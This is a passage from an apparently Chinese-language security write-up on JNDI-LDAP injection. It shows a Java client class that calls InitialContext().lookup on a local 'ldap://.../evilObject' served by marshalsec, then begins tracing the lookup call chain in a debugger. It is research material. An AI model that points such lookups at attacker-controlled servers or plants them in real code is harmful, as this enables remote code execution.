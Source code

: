 ### 示例代码
 - JNDIClient

```java
package org.h3rmesk1t.jndi.LDAPAttack;

import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 7:03 上午
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        new InitialContext().lookup("ldap://127.0.0.1:6666/evilObject");
    }
}
```

![JNDI-LDAP](./images/17.png)

### 过程分析
这里利用`marshalsec`起一个`LDAP`服务, 同样将断点下在`lookup`处. 之前的步骤和`RMI`一样, 这里直接分析后面不同的地方.

跟进`GenericURLContext#lookup`方法, 进一步调用`PartialCompositeContext#lookup`方法, 在`for`循环的条件中先调用`ComponentContext#p_lookup`方法.
